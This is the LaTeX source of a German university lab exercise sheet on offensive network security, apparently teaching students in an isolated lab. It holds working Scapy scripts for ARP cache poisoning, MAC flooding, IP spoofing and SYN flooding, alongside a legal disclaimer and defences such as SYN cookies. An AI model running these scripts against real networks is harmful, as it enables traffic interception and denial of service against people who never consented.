%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%LaTeX template for papers && theses									%%
%%Done by the incredible ||Z01db3rg||									%%
%%Under the do what ever you want license								%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%% 

%start preamble
\documentclass[paper=a4,fontsize=11pt]{scrartcl}%kind of doc, font size, paper size
\usepackage[ngerman]{babel}%for special german letters etc			
%\usepackage{t1enc} obsolete, but some day we go back in time and could use this again
\usepackage[T1]{fontenc}%same as t1enc but better						
\usepackage[utf8]{inputenc}%utf-8 encoding, other systems could use others encoding
%\usepackage[latin9]{inputenc}			
\usepackage{amsmath}%get math done
\usepackage{amsthm}%get theorems and proofs done
\usepackage{graphicx}%get pictures & graphics done
\graphicspath{{pictures/}}%folder to stash all kind of pictures etc
\usepackage[pdftex,hidelinks]{hyperref}%for links to web
\usepackage{amssymb}%symbolics for math
\usepackage{amsfonts}%extra fonts
\usepackage []{natbib}%citation style
\usepackage{caption}%captions under everything
\usepackage{listings}
\usepackage[titletoc]{appendix}
\numberwithin{equation}{section} 
\usepackage[printonlyused,withpage]{acronym}%how to handle acronyms
\usepackage{float}%for garphics and how to let them floating around in the doc
\usepackage{cclicenses}%license!
\usepackage{xcolor}%nicer colors, here used for links
\usepackage{wrapfig}%making graphics floated by text and not done by minipage
\usepackage{dsfont}
\usepackage{stmaryrd}
\usepackage{geometry}
\usepackage{hyperref}
\usepackage{fancyhdr}
\usepackage{menukeys}
\usepackage{pythonhighlight}

\pagestyle{fancy}
\lhead{Benjamin Tröster\\Netzwerke Übung (SoSe18)}
\rhead{FB 4 -- Angewandte Informatik\\ HTW-Berlin}
\lfoot{Übungsblatt 07 -- IT- \& Netzwerk-Security}
\cfoot{}
\fancyfoot[R]{\thepage}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}

\lstdefinestyle{Bash}{
  language=bash,
  showstringspaces=false,
  basicstyle=\small\sffamily,
  numbers=left,
  numberstyle=\tiny,
  numbersep=5pt,
  frame=trlb,
  columns=fullflexible,
  backgroundcolor=\color{gray!20},
  linewidth=0.9\linewidth,
  %xleftmargin=0.5\linewidth
}

\lstdefinestyle{python}{
  language=python,
  showstringspaces=false,
  basicstyle=\small\sffamily,
  numbers=left,
  numberstyle=\tiny,
  numbersep=5pt,
  frame=trlb,
  columns=fullflexible,
  backgroundcolor=\color{gray!20},
  linewidth=0.9\linewidth,
  %xleftmargin=0.5\linewidth
  upquote=true,
  columns=fullflexible,
  literate={*}{{\char42}}1
         {-}{{\char45}}1
}

\newlength\labelwd
\settowidth\labelwd{\bfseries viii.)}
\usepackage{tasks}
\settasks{counter-format =tsk[a].), label-format=\bfseries, label-offset=3em, label-align=right, label-width
=\labelwd, before-skip =\smallskipamount, after-item-skip=0pt}
\usepackage[inline]{enumitem}
\setlist[enumerate]{% (
labelindent = 0pt, leftmargin=*, itemsep=12pt, label={\textbf{\arabic*.)}}}

\pdfpkresolution=2400%higher resolution

%%here begins the actual document%%
\newcommand{\horrule}[1]{\rule{\linewidth}{#1}} % Create horizontal rule command with 1 argument of height

\DeclareMathOperator{\id}{id}

\begin{document}
\begin{center}
\Large{\textbf{Übungsblatt 7 -- Offensive Security}}
\end{center}
\paragraph{Disclaimer: \glqq Hackerparagraph\grqq}~\\
Alle Aufgaben dieses Übungsblattes dienen ausschließlich der Aufklärung, sowie Forschungszwecken innerhalb der eigenen ITK-Infrastrukturen -- d.h. innerhalb des Netzwerklabors der HTW Berlin. Angriffe auf Fremde (bzw. nicht mit deren Einverständnis) Systeme stellen nach deutschem Recht eine Straftat dar!\\
\textbf{\S 202c Vorbereiten des Ausspähens und Abfangens von Daten}
\begin{enumerate}
	\item[(1)] Wer eine Straftat nach \S 202a oder \S 202b vorbereitet, indem er
	\begin{enumerate}
		\item Passwörter oder sonstige Sicherungscodes, die den Zugang zu Daten (\S 202a Abs. 2) ermöglichen, oder
		\item Computerprogramme, deren Zweck die Begehung einer solchen Tat ist,
	\end{enumerate}
	herstellt, sich oder einem anderen verschafft, verkauft, einem anderen überlässt, verbreitet oder sonst zugänglich macht, wird mit Freiheitsstrafe bis zu zwei Jahren oder mit Geldstrafe bestraft.
	\item[(2)]  \S 149 Abs. 2 und 3 gilt entsprechend.
\end{enumerate}
\textbf{\S 303b Computersabotage}
\begin{enumerate}
	\item[(1)] Wer eine Datenverarbeitung, die für einen anderen von wesentlicher Bedeutung ist, dadurch erheblich stört, dass er
	\begin{enumerate}
		\item eine Tat nach \S 303a Abs. 1 begeht,
		\item Daten (\S 202a Abs. 2) in der Absicht, einem anderen Nachteil zuzufügen, eingibt oder übermittelt oder
		\item eine Datenverarbeitungsanlage oder einen Datenträger zerstört, beschädigt, unbrauchbar macht, beseitigt oder verändert,
	\end{enumerate}
	wird mit Freiheitsstrafe bis zu drei Jahren oder mit Geldstrafe bestraft.
	\item[(2)] Handelt es sich um eine Datenverarbeitung, die für einen fremden Betrieb, ein fremdes Unternehmen oder eine Behörde von wesentlicher Bedeutung ist, ist die Strafe Freiheitsstrafe bis zu fünf Jahren oder Geldstrafe.
	\item[(3)] Der Versuch ist strafbar.
	\item[(4)] In besonders schweren Fällen des Absatzes 2 ist die Strafe Freiheitsstrafe von sechs Monaten bis zu zehn Jahren. Ein besonders schwerer Fall liegt in der Regel vor, wenn der Täter
	\begin{enumerate}
		\item einen Vermögensverlust großen Ausmaßes herbeiführt,
		\item gewerbsmäßig oder als Mitglied einer Bande handelt, die sich zur fortgesetzten Begehung von Computersabotage verbunden hat,
		\item durch die Tat die Versorgung der Bevölkerung mit lebenswichtigen Gütern oder Dienstleistungen oder die Sicherheit der Bundesrepublik Deutschland beeinträchtigt.
	\end{enumerate}
	\item[(5)] Für die Vorbereitung einer Straftat nach Absatz 1 gilt § 202c entsprechend.
\end{enumerate}

\paragraph{Voraussetzungen:}
Die Netzwerke \textbf{müssen} physikalisch vom Switch im Rack getrennt sein, da potenziell \glqq gefährliche\grqq, d.h. offensiv Sicherheitstechniken zum Einsatz kommen, die die Funktionstüchtigkeit des Netzwerkes gefährden können. Trennen Sie entsprechend den Switch vom Hochschulnetzwerk.
\begin{table}[H]
\caption{Adressschema für das Labor}
\label{adress_scheme}
\centering
\begin{tabular}{|c|c|}\hline
 & \textbf{IP  || IP-Range} \\ \hline
 $LAN_{A|B}$ & 10.0.$X_{\alpha|\beta}$.Y/Size \\ \hline
\end{tabular}
\end{table}
\paragraph{Scapy}~\\
In Python muss man sich über Details wie Raw Sockets und Bytegrößen von irgendwelchen Protokollen keine Gedanken machen, denn dank \emph{Scapy} von Philippe BIONDI verfügt Python über den mächtigsten Packetgenerator der Welt, der zu allem Überfluss auch noch kinderleicht zu bedienen ist! Keine Pointerschubserei wie mit Libnet unter C, keine Eingeschränktheit in Sachen Protokolle wie mit RawIP unter Perl oder mit Scruby unter Ruby, denn mit Hilfe der Scapy-Bibliotheken kann man Pakete für alle OSI Layer von ARP über IP/ICMP zu TCP/UDP bis hin zu DNS/DHCP etc. generieren, aber es bietet nicht nur Klassen für gängige Protokolle, sondern auch für etwas ausgefallenere wie BOOTP, GPRS, PPPoE, SNMP, Radius, Infrared, L2CAP/HCI, EAP.

\begin{center}\Large{\textbf{Aufgabe A -- ARP-Cache-Poisoning}}\end{center}\vskip0.25in
Die Funktionsweise von ARP (Address Resolution Protocol) wurde in der zweiten bzw. fünften Übung besprochen. Ein Computer, der mit einem anderen über IP Pakete austauschen möchte, muss mittels ARP die MAC-Adresse des Zielrechners erfragen. Diese Frage wird an alle Computer im Netzwerk gesendet. In einer heilen Netzwerkwelt antwortet der Rechner, dem die angefragte IP gehört, mit seiner MAC-Adresse. In einer nicht so heilen Netzwerkwelt könnte ein Angreifer alle paar Sekunden seinem Opfer solch ein ARP-Reply-Paket mit seiner eigenen MAC-Adresse senden und so die Verbindung umlenken. Dies funktioniert, weil die meisten Betriebssysteme seltsamerweise einen ARP-Response verarbeiten auch wenn sie selbst gar keinen ARP-Request versendet haben.
\begin{python}
#!/usr/bin/python

import sys
import time
from scapy.all import sendp, ARP, Ether

if len(sys.argv) < 3:
	print sys.argv[0] + ": <target> <spoof_ip>"
	sys.exit(1)

iface = "eth0"
target_ip = sys.argv[1]
fake_ip = sys.argv[2]

ethernet = Ether()
arp = ARP(pdst=target_ip,
psrc=fake_ip,
op="is-at")
packet = ethernet / arp

while True:
	sendp(packet, iface=iface)
time.sleep(10)
\end{python}
Wir konstruieren mit Hilfe von Scapy ein Paket \emph{packet}, das aus einem Ethernet() und einem ARP()-Header besteht. Im ARP-Header setzen wir die IP-Adresse des Opfers (\emph{target\_ip}) und die IP, für die alle Verbindungen des Opfers an uns
geschickt werden sollen (\emph{fake\_ip}). Als letzter Parameter fehlt noch der OP-Code \emph{is-at}, der das Paket als ARP-Response deklariert. Anschließend wird es in einer Endlosschleife alle 10 Sekunden mit Hilfe der Funktion \emph{sendp()} versendet.\\
Wichtig ist noch die Funktion \emph{sendp()} und nicht die Funktion \emph{send()} zu verwenden, denn wir wollen das Paket auf Layer 2 versenden. Die Funktion \emph{send()} verschickt Pakete über Layer 3.\\
Damit der Angreifer die Pakete weiterleitet und nicht verschluckt, muss er IP-Forwarding aktivieren.
\begin{lstlisting}[style=Bash, language=Bash]
sysctl net.ipv4.ip_forward=1
\end{lstlisting}
Natürlich darf auch kein Paketfilter wie IPtables, pf, ipfw oder dergleichen laufen. Doch nun genug der Theorie und her mit praktischem Pythoncode!\\
Wenn der ARP-Cache des Client mit der \emph{fake\_ip} manipuliert wurde, erhält man nur die Pakete vom Client an die \emph{fake\_ip} . Die Antworten von der \emph{fake\_ip} an den Client bleiben unsichtbar. Abb. \ref{apr_poison} verdeutlicht dies.\\
\begin{figure}[H]
\centering

\includegraphics[scale=0.5]{arp_poison}
\caption{ARP-Cache-Poisoning}
\label{apr_poison}
\end{figure}
Damit die Verbindung bidirektional durch den Computer des Angreifers geleitet wird, wie in Abb. \ref{owmitm}, muss ein Angreifer beiden Computern für den jeweils anderen die eigene MAC-Adresse eintragen.\\
\begin{figure}[H]
\centering

\includegraphics[scale=0.5]{one_way_mitm}
\caption{One-Way-Man-In-The-Middle}
\label{owmitm}
\end{figure}
Unser erstes Beispiel ist ein wenig plump und verschickt unnötig viele ARP-Pakete. Es generiert nicht nur mehr Traffic, sondern ist auch auffälliger. Gewieftere Angreifer benutzen deshalb eine andere Methode. Hierfür würden sich ARP-Spoofing-Methoden eignen.
\begin{center}\Large{\textbf{Aufgabe B -- MAC-Flooder}}\end{center}\vskip0.25in
Switches haben wie alle Computer nur einen begrenzten Speicher. Das gilt auch für die MAC-Adressen-Tabelle, mit deren Hilfe sich ein Switch merkt, welche MAC an welchem Port angeschlossen ist, genauso wie für den Switch-internen ARP-Cache.\\
Switches reagieren manchmal äußerst seltsam, wenn diese Speicher voll gelaufen sind. Das kann von kompletter Dienstverweigerung bis hin zur Aufgabe jeglichen Switchings und Rückfall in einen Hub-Modus reichen. Bei einem Hub-Modus wäre nicht nur der Traffic drastisch höher, weil er auf allen Ports versendet wird, alle angeschlossenen Computer könnten auch allen Traffic ohne Zusatzaufwand mitlesen. Wenn Sie ermitteln möchten, wie Ihre Switches auf diese Ausnahmesituation reagieren, können Sie mit folgendem Scapy-Script so lange zufällige MAC-Adressen generieren und an Ihren Switch schicken, bis dessen Speicher voll ist.
\begin{python}
#!/usr/bin/python
import sys
from scapy.all import *

packet = Ether(src=RandMAC("*:*:*:*:*:*"),
			dst=RandMAC("*:*:*:*:*:*")) / \
		IP(src=RandIP("*.*.*.*"),
			dst=RandIP("*.*.*.*")) / \
		ICMP()

if len(sys.argv) < 2:
	dev = "eth0"
else:
	dev = sys.argv[1]

print "Flooding net with random packets on dev " +  dev

sendp(packet, iface=dev, loop=1)
\end{python}
\emph{RandMAC} und \emph{RandIP} sorgen dafür, dass alle Bytes aller Adressen zufällig generiert werden. Den Rest erledigt der Loop-Parameter der \emph{sendp()}-Funktion.
\begin{center}\Large{\textbf{Aufgabe C -- IP-Spoofing}}\end{center}\vskip0.25in
Als IP-Spoofing bezeichnet man das Fälschen von IP-Adressen. Die Absenderadresse entspricht also nicht der IP des Netzwerkinterfaces, über das sie versendet wird bzw. versendet worden ist, sondern einer manuell gefälschten Adresse. Dies verwenden Angreifer nicht nur, um die eigentliche Herkunft eines Pakets zu verschleiern, sondern auch um Paketfilter zu umgehen oder Funktionen wie TCP-Wrapper auszutricksen, das ebenfalls Dienste anhand der IP erlaubt oder verbietet.\\
Das Programm schickt ein ICMP-Echo-Request-Paket (aka Ping) mit einer gefälschten Source-IP an einen entfernten Rechner.
\begin{python}
#!/usr/bin/python
import sys
from scapy.all import send, IP, ICMP

if len(sys.argv) < 3:
	print sys.argv[0], " <src_ip> <dst_ip>"
	sys.exit(1)
packet = IP(src=sys.argv[1], dst=sys.argv[2]) / ICMP()
answer = send(packet)
if answer:
	answer.show()
\end{python}
Mittels \emph{IP()/ICMP()]} definieren wir ein IP-Paket, das in einem ICMP-Paket verpackt ist. Die etwas unübliche, aber nützliche Schreibweise funktioniert, weil Scapy in der Paket-Bibliothek den/Operator mittels \emph{\_\_div\_\_} überschreibt. Dem IP-Paket geben wir als Parameter eine beliebige Source-IP und die gewünschte Destination-IP mit. Das resultierende Paket-Objekt lassen wir uns mit der \emph{show()}-Methode komplett anzeigen (man könnte auch mit \emph{show2()} nur Layer 2 ausgeben). Danach versenden wir es mit der \emph{send()}-Methode (auch hier gibt es die schon bekannte Methode \emph{sendp()} für Layer 2). Falls wir eine Antwort auf dieses Paket erhalten haben, wird sie angezeigt. Natürlich erhalten wir nur eine Antwort, wenn das Paket physisch bei uns vorbeifliegt; das heißt, sofern der Rechner nicht an einem Hub angeschlossen ist, muss ein Angreifer mit Hilfe einer MITM-Attacke selbst dafür sorgen, dass er die Antwort geschickt bekommt. In unserem Fall brauchen wir uns nicht um MITM-Angriffe zu scheren, denn Scapy trägt für uns automatisch unsere MAC-Adresse als Absender und die Ziel-MAC-Adresse ein, wenn wir die Ethernet-Schicht weglassen. Dadurch ist sichergestellt, das die Antwort ihren Weg zu uns finden wird.\\
IP-Spoofing kann am besten mit der Signierung oder noch besser mit der Signierung und Verschlüsselung von IP-Paketen verhindert werden. Dazu dienen wahlweise die Protokolle \emph{AH} oder \emph{ESP} aus der \emph{IPSec}-Protokollfamilie.
\begin{center}\Large{\textbf{Aufgabe D -- SYN-Flooder}}\end{center}\vskip0.25in
Eine weitere \emph{DOS} (Denial of Service)-Variante ist \emph{SYN-Flooding}. Dabei werden an ein Zielsystem so viele TCP-Pakete mit gesetztem SYN-Flag gesetzt, bis dieses alle weiteren Verbindungsversuche verweigert. Pakete, die das \emph{SYN-Flag} gesetzt haben, dienen in der Regel dazu, den Three-Way-Handshake einzuleiten, und werden beim Zielsystem für einen offenen Port mit einem \emph{SYN/ACK}-Paket beantwortet. Erfolgt von der anfragenden Seite kein abschließendes \emph{ACK}, bleibt die Verbindung im sogenannten Half-Open-State, bis sie nach einem Timeout geschlossen wird. Sollten zu viele Verbindungen auf einem System im Half-Open-State sein verweigert es alle weiteren Verbindungsanfragen. Um zu erfahren, wie Ihre Systeme auf diesen Ausnahmezustand reagieren, programmieren wir in ein paar Zeilen Python solch einen SYN-Flooder.
\begin{python}
#!/usr/bin/python
import sys
from scapy.all import srflood, IP, TCP

if len(sys.argv) < 3:
	print(sys.argv[0], " <spoofed_source_ip> <target>")
	sys.exit(0)
packet = IP(src=sys.argv[1], dst=sys.argv[2]) / \
		TCP(dport=range(1,1024), flags="S")
		
srflood(packet, store=0)
\end{python}
Üblicherweise werden SYN-Flood-Angriffe mit IP-Spoofing kombiniert. Ansonsten würde sich der Angreifer selber durch die vielen Antwort-Pakete DOS’en. Gleichzeitig kann durch IP-Spoofing einer existierenden IP der Traffic noch erhöht werden, denn das System, das die SYN/ACK-Pakete empfängt, reagiert darauf womöglich mit RST-Paketen.\\
Glücklicherweise gehören SYN-Flood-Angriffe heutzutage dank der SYN-Cookies-Technologie größtenteils der Vergangenheit an.
Unter Linux schalten Sie SYN-Cookies wie folgt an:
\begin{lstlisting}[style=Bash, language=Bash]
echo 1 > /proc/sys/net/ipv4/tcp_syncookies
\end{lstlisting}
Weitere Informationen über SYN-Cookies erhalten Sie auf den Seiten von Daniel Bernstein unter: 
\url{http://cr.yp.to/syncookies.html.}
\end{document}